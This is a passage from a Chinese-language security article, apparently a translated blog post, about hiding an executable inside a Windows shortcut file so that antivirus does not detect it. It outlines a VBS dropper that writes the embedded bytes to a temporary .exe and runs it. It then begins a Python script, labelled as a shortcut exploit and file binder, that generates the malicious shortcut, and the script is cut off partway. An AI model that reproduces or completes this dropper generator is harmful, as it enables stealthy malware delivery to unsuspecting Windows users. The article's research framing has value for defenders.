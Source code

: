 向下滚动到PowerShell列表项，然后取消选中该复选框

[![](https://p5.ssl.qhimg.com/t0113f89af57de598ac.png)](https://p5.ssl.qhimg.com/t0113f89af57de598ac.png)

重新启动后，PowerShell包就会从您的系统中卸载。

<br>

**利用Windows快捷方式的新方法**

就在昨天，我们报告了一种通过快捷方式来感染Microsoft Windows用户的方法，该方法可以使用BITSAdmin工具来下载和执行远程应用程序。

我们的第一个示例的主要问题在于，防火墙可能会拦截下载尝试，而要想执行远程文件，则必须首先通过远程http/https连接进行下载。

现在，安全研究人员又发现了另一种利用Windows快捷方式的新方法：将任意文件（如应用程序文件）直接嵌入到快捷方式本身内部。

<br>

**没错! 该应用程序就藏在Windows的快捷方式本身内部。**

这使得恶意应用程序在执行之前，无论任何防病毒软件，根本就检测不到它。

注意：在下面介绍的PoC中，我们将使用这个漏洞作为文件dropper，与此同时，我们也可以采用另一种方式：将二进制文件直接注入内存，而不写入磁盘，这样的话，当这个恶意软件运行时，防病毒软件就更加难以检测到它了。关于后面这种方法，我们将单独写一篇文章进行详细介绍。



**它是如何工作的？ **

首先要做的是：创建一个恶意的VBS（Visual Basic脚本），它用于：

将应用程序文件转换为字节数组（通过python脚本完成）

然后创建一个临时的.exe文件

将字节数组写入此临时文件中

执行这个临时的.exe文件。

准备好VBS脚本后（仍然使用我们的python脚本示例），我们将该VBS代码转换为等价的一个单命令行，以便插入到新的快捷方式中。

通常来说，Windows快捷方式命令的最大长度在260个字符左右，但是，对于利用之前Delphi技巧所新建的快捷方式来说，你可以插入任意数量的字符，都不会对快捷方式造成不良影响。

<br>

**创建内联恶意VBS应用程序提取器的脚本（Python 3.5） **

```
# SHORTCUT EXPLOIT           : FILE BINDER (WRAPPER)
# DISCOVERED AND CODED BY    : @DarkCoderSc
# https://twitter.com/DarkCoderSc
# Lead Developer / Security Researcher at Phrozen SAS (https://phrozensoft.com)
# jplesueur@phrozensoft.com
############################################
# This little script will generate a malicious shortcut. A file will be embedded
# Inside, when executed it will be extracted and executed.
import sys
import os
if len(sys.argv) != 3:
        print("Missing arguments!n")
        print("Usage:n")
        print(r"1) The executable file to be dropped (Needs to Exists)")
        print(r"2) The destination malicious shell payload file")
        exit()
FEXEFile  = str(sys.argv[1])
FFileDest = str(sys.argv[2])
if not os.path.exists(FEXEFile):
        print("The input executable file must exists!")
        exit()
#
# TRANSFORM INPUT FILE IN BINARY ARRAY
#
payload = "payload=array(";
with open(FEXEFile, 'rb') as FFile:
```